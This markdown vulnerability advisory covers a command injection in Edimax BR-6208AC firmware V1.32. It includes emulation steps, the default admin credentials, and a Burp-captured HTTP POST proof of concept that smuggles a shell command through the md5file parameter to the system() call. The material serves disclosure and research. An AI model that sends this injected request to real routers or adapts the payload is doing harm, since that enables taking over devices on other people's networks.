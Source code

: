 ## **Description**

A command injection and buffer overflow vulnerability was discovered in the Edimax BR-6208AC firmware version ​**V1.32**. The vulnerability arises from the improper input validation of the `md5file` parameter in the 'formAutoFWupgrade' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: BR-6208AC
- ​**Version**: V1.32

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/BR-6208AC_1.32.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formAutoFWupgrade' is below:
![vulner_code.png](./img/vulner_code.png)
![[work_record/EDIMAX/BR6208AC_v1.32/injection/2/img/vulner_code.png]]

- ​**websGetVar** retrieves POST parameters 'md5file'.
- **system()** is used without check, resulting a command injection in this place

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formAutoFWupgrade HTTP/1.1  
Host: 192.168.2.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 76  
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==  
Connection: close  
Referer: http://192.168.2.1/wireless_basic.asp 
Upgrade-Insecure-Requests: 1  
  
action=vpn&tftpsIP=192.168.2.2&zipfile=123;&md5file=;echo test>/md5_poc.txt;
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)